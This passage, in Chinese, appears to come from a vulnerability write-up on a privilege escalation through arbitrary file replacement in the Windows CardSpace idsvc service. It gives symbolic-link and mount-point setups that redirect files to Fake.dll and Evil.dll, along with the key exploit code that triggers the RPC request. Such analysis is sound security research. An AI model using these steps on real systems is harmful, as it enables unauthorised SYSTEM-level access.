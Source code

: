 idsvc服务通过new SystemIdentity(true)切换回idsvc服务身份,调用AtomicFileCopy移动用户配置文件.在默认配置下%APPDATA%目录下的文件在可由当前用户可完全控制.当高权限进程对低权限进程可控制文件进行删除,移动,复制,设置属性等操作时,低权限进程均可利用此特权做一些其他操作.James Forshaw[开源工具](https://github.com/googleprojectzero/symboliclink-testing-tools),他在NTFS文件系统和Windows内部的开创性工作完成了所有繁重工作,实现了几种滥用Windows文件系统和路径解析功能的技术和利用方法.NTFS文件系统允许将一个用户控制目录挂载到另一个用户控制目录(挂载点Volume Mount Points和交叉点Junction Points),也允许通过符号链接Symbolic Links(NTFS重解析点Reparse Points)将一个目标链接至另一个,和硬链接(Hard Link)将一个用户可控制文件链接至另一个可读文件,以上方式均可导致恶意攻击者滥用高特权进程执行文件操作.对于poc中的利用,可使用如下两种方式对源文件和目标文件创建相应符号链接,第一种方式为挂载点和硬链接,这种方式只适用于win7,硬链接已被微软缓解,具体原因见[分析](http://whereisk0shl.top.park.bitcron.com/post/2019-06-08),第二种方式仍然可在win10实现利用,原理是通过任意用户可写对象目录RPC Control链接至指定目录,然后继续链接RPC Control目录下文件至指定文件,具体方式如下,关于符号链接的相关可以参考[上篇](https://www.4hou.com/posts/qV8D)和[下篇](https://www.4hou.com/posts/rE7B),这里不再赘述

```
第一种方式, 挂载点和硬链接
C:\workspace\mountpoint -&gt;  C:\Users\Username\AppData\Local\Microsoft\CardSpace
源文件(挂载点) = C:\workspace\mountpoint\CardSpace.db(Fake.dll) -&gt; C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db
目标文件(硬链接) =C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -&gt;  C:\Evil.dll
第二种方式,符号链接至 \RPC Control
C:\Users\Username\AppData\Local\Microsoft\CardSpace -&gt; \RPC Control
源文件 = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db -&gt;\RPC Control\CardSpace.db
目标文件 =C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -&gt; \RPC Control\CardSpace.db.atomic
源文件 = \RPC Control\CardSpace.db -&gt;C:\Fake.dll 
目标文件 = \RPC Control\CardSpace.db.atomic -&gt; C:\Evil.dll
```

[![](https://p4.ssl.qhimg.com/dm/1024_647_/t01ac924be7acbd26ec.png)](https://p4.ssl.qhimg.com/dm/1024_647_/t01ac924be7acbd26ec.png)

从Process Monitor看出idsvc服务移动文件时并没使用模拟(Impersonate)用户身份操作,也没有判断文件的符号链接属性,就导致任意文件替换权限提升漏洞,以下是漏洞利用关键代码

```
BOOL Exploit()
`{`
	RpcRequest* req = (RpcRequest*)CoTaskMemAlloc(sizeof(RpcRequest));
	req-&gt;Type = L"ManageRequest";
	req-&gt;Length = 0;
	req-&gt;Data = 0;
	RpcResponse* rep = (RpcResponse*)CoTaskMemAlloc(sizeof(RpcResponse));
	UINT32* ctx = 0;
	long ret = Proc0_RPCClientBindToService(hBinding, (void**)&amp;ctx);
	printf("Proc0_RPCClientBindToService :%d\n", ret);
	ret = Proc2_RPCDispatchClientUIRequest((void**)&amp;ctx, req, &amp;rep);
	printf("Proc2_RPCDispatchClientUIRequest :%08x\n", ret);
	return 0;
`}`
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>漏洞利用分析

笔者设计了一种新的基于任意文件替换的提权利用方式,原型来自[CVE-2017-0213](https://www.exploit-db.com/exploits/42020/),这种方式适用于Windows7至Windows10所有版本操作系统,但前提是要被替换的文件不是TrustedInstaller控制权限,才可以触发漏洞,原因是TrustedInstaller权限高于其他权限,如果直接执行替换操作,即使是以System权限操作结果都是拒绝访问,一般只有管理员权限或者System权限的文件才符合条件.笔者制作了一个工具用于搜索指定目录下可替换文件,在相关项目列表中提供,也可以使用微软[SysinternalsSuite](https://docs.microsoft.com/zh-cn/sysinternals/downloads/sysinternals-suite)中的accesschk工具,启动命令行如下,最后一个参数为指定目录文件
